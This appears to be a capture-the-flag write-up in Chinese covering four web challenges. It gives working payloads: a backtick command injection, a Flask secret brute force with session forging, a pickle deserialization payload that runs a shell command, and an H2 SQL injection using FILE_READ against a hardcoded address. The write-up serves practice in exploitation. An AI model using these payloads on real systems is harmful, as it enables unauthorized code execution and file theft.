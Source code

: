 # What the cow say?
	- ```shell
	  moo `nl /f*/*`
	  ```
- # myflask
	- 首先造一个字典用 [[CTFWEB/Flask-Unsign]] 爆破出密钥`003649`
		- ```python
		  with open("wordlist.txt", "w") as f:
		      for i, j in ((i, j) for i in range(0, 60) for j in range(0, 60)):
		          f.write("00" + str(i).zfill(2) + str(j).zfill(2) + "\n")
		  ```
	- 然后伪造session
		- ```shell
		  flask-unsign -s --secret 003649 -c "{'username': 'admin'}"
		  ```
	- 最后直接pickle反序列化，payload:
		- ```python
		  b"(T*\x00\x00\x00__import__('os').popen('cat /flag').read()ibuiltins\neval\n."
		  ```
		- ```python
		  base_request.reset_session()
		  r = base_post(url + "flag", cookies = {"session": session}, data = {
		      "pickle_data": encoder.base64_encode(opcode)
		  })
		  print(r.text)
		  ```
- # Select More Courses
	- 爆破出密码`qwert123`，然后多线程爆破请求扩学分接口，最后选课即可
- # search4member
  id:: 65c31b16-c2a3-4355-a8b6-1baca2e5e778
	- 查看源码可知SQL引擎是h2 database
	- 直接读文件即可
		- ```python
		  url = "http://106.14.57.14:31536"
		  
		  r = base_post(url, params = {
		      "keyword": "web%' union select '1', FILE_READ('/flag', NULL),'3' --"
		  })
		  bs = BeautifulSoup(r.text, "html.parser")
		  print(bs.select("ul"))
		  ```